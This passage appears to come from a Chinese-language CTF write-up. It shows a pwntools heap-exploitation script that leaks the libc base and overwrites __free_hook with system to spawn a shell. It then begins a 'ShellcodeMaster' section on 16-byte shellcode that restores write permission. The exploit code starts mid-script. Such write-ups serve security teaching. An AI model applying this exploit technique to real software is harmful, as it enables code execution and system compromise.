```bash
show(0)
libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)

for i in range(10):
    add(i,0x60,'aaaa')

for i in range(9):
    delete(9-i)

delete(2)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 

for i in range(5):
    add(i,0x60,'aaaa')

add(5,0x60,'/bin/sh\x00')
add(6,0x60,'aaaa')
add(7,0x60,p64(free_hook))


add(8,0x60,'aaaa')
add(9,0x60,'aaaa')
add(10,0x60,p64(system))
delete(5)
'''
'''
#duan()
p.interactive()
```

## ShellcodeMaster

### 思路 1

[![](assets/1708654729-2489046615db778319581053d6a9b03e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104234-ddf6fbde-d062-1.png)  
16 字节的 shellcode，而且把 buf 的写入权限关了  
所以 16 字节打开权限和再次写入
